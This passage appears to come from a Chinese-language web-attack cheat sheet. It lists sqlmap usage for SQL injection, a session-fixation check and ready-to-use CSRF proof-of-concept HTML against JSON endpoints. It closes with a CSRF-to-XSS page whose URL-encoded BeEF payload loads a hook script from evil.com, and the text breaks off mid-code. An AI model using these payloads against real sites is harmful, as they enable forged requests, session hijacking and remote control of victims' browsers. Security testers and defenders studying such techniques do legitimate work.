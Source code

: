 ```text
1. 使用 *标记Vulnerable参数
2. 复制请求并将其粘贴到文件中。
3. 用sqlmap运行：
sqlmap -r <file with request> -vvvv
```

备忘录:[https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)

可以试试双编码输入。

### 会话固定

快速检查的方法，可用于确定会话固定漏洞是否是网站上的问题：

```text
转到登录页面，观察未经身份验证的用户拥有的会话ID。

登录该站点。进入后，观察用户拥有的会话ID。如果会话ID与用户进行身份验证之前由站点提供的会话ID匹配，那么存在会话固定漏洞。
```

### CSRF

一些绕过技术，即使有CSRF Token: [https://zseano.com/tutorials/5.html](https://zseano.com/tutorials/5.html)

csrf和reset api:

```text
<html>
<script>
function jsonreq() {
  var xmlhttp = new XMLHttpRequest();
  xmlhttp.open("POST","https://target.com/api/endpoint", true);
  xmlhttp.setRequestHeader("Content-Type","text/plain");
  //xmlhttp.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
  xmlhttp.withCredentials = true;
  xmlhttp.send(JSON.stringify({"test":"x"}));
}
jsonreq();
</script>
</html>
```

案例:

```text
https://blog.appsecco.com/exploiting-csrf-on-json-endpoints-with-flash-and-redirects-681d4ad6b31b
http://c0rni3sm.blogspot.com/2018/01/1800-in-less-than-hour.html
```

CSRF TO REDECT XSS

```text
<html>
  <body>
    <p>Please wait... ;)</p>
    <script>
let host = 'http://target.com'
let beef_payload = '%3c%73%63%72%69%70%74%3e%20%73%3d%64%6f%63%75%6d%65%6e%74%2e%63%72%65%61%74%65%45%6c%65%6d%65%6e%74%28%27%73%63%72%69%70%74%27%29%3b%20%73%2e%74%79%70%65%3d%27%74%65%78%74%2f%6a%61%76%61%73%63%72%69%70%74%27%3b%20%73%2e%73%72%63%3d%27%68%74%74%70%73%3a%2f%2f%65%76%69%6c%2e%63%6f%6d%2f%68%6f%6f%6b%2e%6a%73%27%3b%20%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%73%42%79%54%61%67%4e%61%6d%65%28%27%68%65%61%64%27%29%5b%30%5d%2e%61%70%70%65%6e%64%43%68%69%6c%64%28%73%29%3b%20%3c%2f%73%63%72%69%70%74%3e'
let alert_payload = '%3Cimg%2Fsrc%2Fonerror%3Dalert(1)%3E'

function submitRequest() {
  var req = new XMLHttpRequest();
  req.open(<CSRF components, which can easily be copied from Burp's POC generator>);
```